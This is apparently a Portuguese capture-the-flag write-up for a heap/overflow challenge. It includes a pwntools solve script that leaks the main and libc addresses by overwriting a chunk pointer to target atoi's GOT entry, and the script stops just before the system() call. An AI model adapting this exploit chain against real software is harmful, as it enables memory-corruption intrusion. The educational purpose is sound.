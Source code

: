 {% endcode %}

Note que antes de chamar a `fgets`, ele passa como *buffer* o `curr` + `0x40`, e aí está o nosso *offset*. 

{% hint style="warning" %}

**Importante:** Como em nenhum momento esse *chunk* é liberado, não devemos nos preocupar com o programa identificando um erro ou algo do tipo. Isso acaba fazendo que o desafio nem seja tão relacionado a **HEAP**, já que o *exploit* principal é um *overflow*.

{% endhint %}

{% code title="solve.py" overflow="wrap" lineNumbers="true" %}

```py
from pwn import *

elf = context.binary = ELF("./chall")
libc = ELF("./libc.so.6")
#p = process()
p = remote("ip", porta)

def create(idx):
    p.sendlineafter(b"Choice: ", b"1")
    p.sendlineafter(b"index: ", idx)

def write(payload):
    p.sendlineafter(b"Choice: ", b"2")
    p.sendlineafter(b"data: ", payload)

def test():
    p.sendlineafter(b"Choice: ", b"3")
    p.recvuntil(b"data: ")
    return int.from_bytes(p.recvline()[:8], byteorder="little")

def explore(idx):
    p.sendlineafter(b"Choice: ", b"4")
    p.sendlineafter(b"index: ", idx)

def reset():
    p.sendlineafter(b"Choice: ", b"5")

# Vazamento da main.
p.recvuntil(b"gift: ")
main_leak = int(p.recvline().decode()[:-1], 16)
elf.address = main_leak - elf.sym["main"]

# Preparando chunks.
create(b"0")
create(b"1") # <- prev
explore(b"0") # <- curr

# Montando payload
payload = b"A" * 0x30 + p64(elf.got["atoi"] - 0x40)
write(payload)

# Vazando endereço da atoi.
reset()
create(b"2")
explore(b"1")
explore(b"0")
atoi_leak = test()
libc.address = atoi_leak - libc.sym["atoi"]

# Chamando a system.
```